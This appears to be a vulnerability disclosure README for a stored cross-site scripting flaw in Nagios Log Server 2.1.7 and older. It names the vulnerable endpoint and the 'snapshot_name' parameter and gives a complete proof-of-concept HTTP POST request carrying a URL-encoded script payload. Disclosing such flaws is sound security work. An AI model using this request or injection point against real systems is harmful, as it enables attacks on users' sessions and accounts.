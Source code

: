 # Nagios-Log-Server-2.1.7-Persistent-Cross-Site-Scripting
A stored cross-site scripting (XSS) in [Nagios Log Server 2.1.7](https://www.nagios.com/products/nagios-log-server/) can result in an attacker performing malicious actions to users who open a maliciously crafted link or third-party web page.

[Nagios Log Server 2.1.7](https://www.nagios.com/products/nagios-log-server/) and older versions are affected by these vulnerabilities.


# PoC
To exploit vulnerability, someone could use a POST request to '/nagioslogserver/configure/create_snapshot' by manipulating 'snapshot_name' parameter in the request body to impact users who open a maliciously crafted link or third-party web page.

```
POST /nagioslogserver/configure/create_snapshot HTTP/1.1
Host: 172.16.155.169
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 117
Origin: http://172.16.155.169
DNT: 1
Connection: close
Referer: http://172.16.155.169/nagioslogserver/configure/snapshots
Cookie: csrf_ls=b3bef5c1a2ef6e4c233282d1c1c229fd; ls_session=883lergotgcjbh9bjgaeakosv5go2gbb; PHPSESSID=nbah0vkmibpudd1qh7qgnpgo53
Upgrade-Insecure-Requests: 1

csrf_ls=b3bef5c1a2ef6e4c233282d1c1c229fd&snapshot_name=%22%3E%3Cscript%3Ealert%28document.domain%29%3B%3C%2Fscript%3E
```

![](https://emreovunc.com/blog/en/Nagios_Log_Server_Persistent_XSS.png)

![](https://emreovunc.com/blog/en/Nagios_Log_Server_Persistent_XSS_Request.png)
